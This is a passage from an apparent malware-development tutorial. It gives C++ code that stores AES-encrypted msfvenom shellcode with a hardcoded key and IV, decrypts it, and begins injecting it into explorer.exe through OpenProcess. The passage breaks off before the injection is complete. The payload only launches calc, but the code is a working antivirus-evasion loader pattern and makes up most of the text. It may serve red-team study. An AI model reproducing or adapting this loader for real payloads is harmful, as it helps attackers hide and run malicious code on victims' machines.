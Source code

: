 The following shows the output of the above code and the AES-encrypted shellcode.

![AES-encrypted Shellcode](/static/img/2021-12-15-lazy-maldev/encrypted-shellcode.png)

To use it, simply change the contents of `shellcode` parameter using the above output, and then add the decryption code. The following shows the updated code:

```cpp
#include <Windows.h>
#include "include/aes.hpp"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 5284;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\x9c\xad\x1d\x5b\x52\x35\xdf\x9e\x15\xc3\xa4\x94\xb0\xf6\xd5\x1a\x14\x82\x9b\xc2\xc5\x40\x9e\x03\x45\xdf\x0d\x85\xfc\xff\xc2\xf7\x37\x84\x4b\xa1\x5f\x07\xa3\xf5\xd5\xe3\x54\xe4\x33\x84\x24\xf9\xaf\xbd\xc1\x53\xc9\x87\x4c\xc2\x12\xc7\x24\x6c\x22\xe9\x41\xb4\x47\x9c\xfa\x4c\x20\x8f\x57\x17\x29\x00\x10\x40\x83\xff\xc8\xfe\xa5\x87\x1f\xfd\xec\x30\x72\x07\x71\x59\xf8\x05\xda\x49\x12\xdf\x0a\xc5\xb8\x65\x99\x65\xfa\x5f\xc4\xc3\x8b\x40\x1e\xbe\xf1\x55\xde\x4f\x3a\x65\x2f\x14\xcc\x29\x9d\x7d\x17\xd0\x55\x99\x9e\xc3\x0d\xd7\xbb\xa3\x00\x34\x79\x32\xbe\x16\x66\xf6\xa4\xbc\xda\x40\x06\x7b\x8d\x56\x79\x6b\x21\x79\xd5\xf9\x55\x52\xe2\xd5\x8c\x34\xfd\x1c\x26\xc2\xf5\xd4\x6b\xca\xc3\x74\x91\x9d\xe4\xa2\xf4\x71\x42\x90\x2c\x6a\x11\x66\xf8\x56\x8f\x3c\x26\xa4\x27\x89\x6f\xc2\x02\x48\x53\xed\x08\x32\xa6\x48\x0f\x9a\x39\x0e\x5d\x38\xb4\xa2\x30\x6d\x27\x94\x80\x8c\x06\xa8\x86\x5f\x0b\xda\x44\x83\x51\x55\xfc\xb9\xe2\xcb\xbc\x95\xc8\xd6\x18\xd7\x1b\x04\x3d\xfb\x53\x9b\x57\xa8\xb2\xab\xe7\x27\x3b\xd2\xcb\x53\x20\x11\xcc\x5f\xaf\x31\xcf\xba\x83\xd7\xc7\xa8\xf7\x0c\x78\x6d\x7f\x46\x99\xd7\x33\x23";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;

	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, shellcode, shellcodeSize);

	HANDLE hProcess;
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

```